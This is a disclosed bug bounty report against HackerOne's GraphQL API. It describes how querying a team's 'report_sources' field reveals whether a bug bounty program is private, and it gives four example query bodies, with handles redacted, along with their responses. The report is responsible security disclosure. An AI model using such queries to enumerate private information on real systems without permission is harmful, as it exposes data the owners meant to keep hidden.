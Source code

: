 # Unauthorized user can obtain `report_sources` attribute through Team GraphQL object

## Report Details
- **Report ID**: 770209
- **URL**: https://hackerone.com/reports/770209
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-01-08T12:10:48.071Z
- **Disclosed**: 2020-02-10T21:48:48.814Z

## Reporter
- **Username**: haxta4ok00
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: security

## Vulnerability Information
**Summary:**
Hi team. And Happy New Year!
**Description:**
If I am not mistaken, then through this parameter we can define private programs with an external link.

If this parameter is not empty, then the program is private. - `["HackerOne Platform"]`
### Steps To Reproduce

https://hackerone.com/graphql
POST:


1){"query": "query {team(handle:\\"████████\\"){_id,report_sources}}"}
`{"data":{"team":{"_id":"██████████","report_sources":[]}}}` - not private program

2){"query": "query {team(handle:\\"███\\"){_id,report_sources}}"}
`{"data":{"team":{"_id":"█████","report_sources":["HackerOne Platform"]}}}` - `["HackerOne Platform"]` - private program

3){"query": "query {team(handle:\\"█████████\\"){_id,report_sources}}"}
`{"data":{"team":{"_id":"█████████","report_sources":["HackerOne Platform"]}}}` - `["HackerOne Platform"]` - private program

4){"query": "query {team(handle:\\"█████\\"){_id,report_sources}}"}
`{"data":{"team":{"_id":"███","report_sources":[]}}}` - not private program

Sorry i bad speak english
I hope you understand me
Thank you,haxta4ok00

## Impact

disclosed of private programs who have external link

## Attachments
No attachments
